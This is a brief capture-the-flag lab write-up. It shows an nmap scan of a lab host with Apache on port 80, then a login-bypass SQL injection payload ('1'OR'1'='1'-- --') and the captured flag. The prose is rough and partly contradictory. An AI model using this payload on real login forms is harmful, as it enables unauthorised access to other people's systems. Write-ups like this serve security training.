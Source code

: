 

Nmap scanning:
~~~
nmap 10.129.171.23 -sC -sV 
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 13:46 EDT
Nmap scan report for 10.129.171.23
Host is up (0.29s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds

apache http server is the free and open source web server to delivers the web content through the internet.
~~~



i try the all port no ports are open 
after this we find that 80 port is open 

and this web page is vuln to sql injection it is injected to normal playload

~~~
1'OR'1'='1'-- --
~~~




flag: e3d0796d002a446c0e622226f42e9672







